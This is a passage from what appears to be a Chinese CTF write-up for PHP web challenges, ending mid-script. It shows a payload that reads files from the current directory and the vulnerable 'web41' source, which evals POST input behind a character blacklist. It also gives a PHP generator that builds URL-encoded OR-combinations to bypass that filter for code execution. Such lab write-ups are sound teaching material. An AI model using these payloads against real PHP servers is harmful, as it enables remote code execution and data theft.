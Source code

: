 > 
Payload


```
c=readfile(next(array_reverse(scandir(getcwd()))));

```

## web41

> 
源码


```
&lt;?php

if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&amp;|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?&gt; 

```

> 
Payload


```
&lt;?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i &lt; 256; $i++) { 
	for ($j=0; $j &lt;256 ; $j++) { 

		if($i&lt;16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j&lt;16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&amp;|\-/i';
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)&gt;=32&amp;ord($c)&lt;=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

```